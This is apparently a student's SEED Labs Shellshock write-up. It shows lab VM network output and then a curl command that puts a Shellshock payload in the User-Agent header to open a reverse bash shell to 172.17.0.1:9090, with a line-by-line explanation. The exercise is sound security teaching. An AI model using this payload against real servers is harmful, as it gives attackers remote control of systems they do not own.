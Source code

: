 
**Server:**
```
[02/16/21]seed@VM:~/.../image_www$ ifconfig
br-07cfff2418ac: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.9.0.1  netmask 255.255.255.0  broadcast 10.9.0.255
        inet6 fe80::42:2dff:fe8a:6a2e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:2d:8a:6a:2e  txqueuelen 0  (Ethernet)
        RX packets 1082  bytes 286897 (286.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1453  bytes 130338 (130.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:adff:fe75:7eb0  prefixlen 64  scopeid 0x20<link>
        ether 02:42:ad:75:7e:b0  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3  bytes 306 (306.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.4  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::4b00:2179:aa87:959d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:5a:18:ea  txqueuelen 1000  (Ethernet)
        RX packets 81737  bytes 109946783 (109.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 47465  bytes 3237753 (3.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3025  bytes 402057 (402.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3025  bytes 402057 (402.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth23da45d: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::48cb:cdff:fee2:7524  prefixlen 64  scopeid 0x20<link>
        ether 4a:cb:cd:e2:75:24  txqueuelen 0  (Ethernet)
        RX packets 1082  bytes 302045 (302.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1542  bytes 140423 (140.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
[02/16/21]seed@VM:~/.../02_shellshock$ curl -A '() { :; }; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/172.17.0.1/9090 0<&1 2<&1' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```
This one was pretty similar to the descriptions. I followed the guild and made a few changes. First, I used ifconfig to find the IP address. Since I was not 100% sure, I tried many of them until it was clear that it is docker0. Then I modified the command from /bin/bash -i ... to using curl to ask it to wait for some commands. Lastly, once everything was done, I was able to type id on the attacker and the server's id showed up. /bin/bash is the bash that we are using. i is interactive, which means that shell is interactive. > /dev/tcp/172.17.0.1/9090 causes the output device stdout of the shell to be redirected to the TCP connection to IP's port. 0<&1 is stdin, stdout. 2>&1 is stderr, stdout. The vulnerability at this point becomes more clear to me. If we were only talking about the hard-coding, I did not think it was going to cause such a headache. However, after looking at how an attack could easily take over the server, I began to understand the problem.
